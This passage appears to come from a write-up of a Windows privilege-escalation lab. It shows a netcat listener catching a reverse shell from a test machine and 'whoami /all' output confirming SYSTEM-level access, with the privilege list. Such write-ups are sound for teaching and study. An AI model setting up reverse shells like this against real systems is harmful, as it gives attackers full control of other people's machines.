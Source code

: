 We have escalated privileges to `NT AUTHORITY\SYSTEM`:

```powershell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.27.128] from (UNKNOWN) [192.168.27.129] 50954
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
```